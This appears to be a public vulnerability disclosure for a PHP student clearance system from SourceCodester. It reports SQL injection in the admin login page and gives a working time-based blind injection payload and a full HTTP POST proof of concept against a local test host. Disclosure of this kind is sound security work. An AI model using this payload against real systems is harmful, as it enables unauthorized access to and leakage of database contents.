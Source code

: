 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Tr0e

2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);

3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;

4. Vulnerability location:  /student_clearance_system_Aurthur_Javis/admin/login.php

# Vulnerability Verification

[+] Payload:

```java
txtusername=admin'and(select*from(select+sleep(3))a/**/union/**/select+1)='&txtpassword=admin123&btnlogin=
```

POC：

```js
POST /student_clearance_system_Aurthur_Javis/admin/login.php HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 106
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=e8pdd3dv0b39d1h4vcj99q01cq
Connection: close

txtusername=admin'and(select*from(select+sleep(3))a/**/union/**/select+1)='&txtpassword=admin123&btnlogin=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image](https://user-images.githubusercontent.com/42080954/194333429-e9eb669d-2552-4f60-8bcb-e016b1e260b6.png)

